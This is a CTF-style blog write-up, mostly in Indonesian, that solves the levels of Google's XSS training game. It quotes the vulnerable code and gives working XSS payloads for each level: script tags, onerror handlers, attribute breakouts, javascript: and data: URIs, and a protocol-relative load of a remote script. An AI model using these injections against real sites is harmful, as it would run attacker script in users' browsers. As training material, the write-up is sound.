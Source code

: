 ```yaml
---
layout: post
title: "XSS Appspot Writeup: Level 1 - 5"
description: "Writeup XSS Appspot"
headline: 
modified: 2017-01-31
date: 2017-01-31
category: ctf
tags: [xss]
imagefeature: /images/xss-appspot.PNG
mathjax: 
chart: 
comments: true
featured: false
---
```


## Level 1

### Problem

This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.
    
### Solution

parameter query langsung masuk sebagai html jadi kita bisa kirim payload `<script>alert(1)</script>`


## Level 2

### Problem

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

### Solution 

Payload `<img src="x" onerror="alert(1)">`


## Level 3

### Problem 

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

### Solution 

dari potongan javascript ini 

``` javascript

    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
    
```

yang menarik adalah bagian ini `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
terlihat input kita masuk ke tag img kemudian di tambain " .jpg' "
maka kita bisa kirim payload gambar yang tidak ada , dan kita tambahkan event onerror
payload `' onerror=alert(1) alt='`


## Level 4

### Problem

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

### Solution

disini fungsi start timer di panggil di dalam onload event dan input kita masuk ke parameter dari fungsi starttime
karena dalam event html kita bisa panggil multiple function jadi kita bisa tambahin function alert pake separator ;
`200');alert(1)` tapi itu belum work sebelum kita kirim pake url encode `200%27%29%3Balert%28%271`

## Level 5

### Problem 

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

### Solution

Input kita di parameter ?next= itu masuk ke dalam tag `<a href="{next}">`
simple kita bisa inject javascriptnya

`javascript:alert(1)`

atau juga bisa pake `data:text/html,<script>alert(1);</script>` yang di urlencode jadi
`data%3Atext%2Fhtml%2C%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## Level 6

### Problem

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

### Solution

Kita ngak bisa pake protocol http atau https untuk load file nya
karena dia ada cek

``` javascript

if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      
```

kita host `alert(1)` ke pastebin terus kita load tapi bukan pake http atau https atau protokol lain tapi
pake `//pastebin.com/raw/6aV0qLz3`

read more : [2 Forward slashes](http://stackoverflow.com/questions/9646407/two-forward-slashes-in-a-url-src-href-attribute/9646435#9646435)


![](/images/solve-xss.PNG)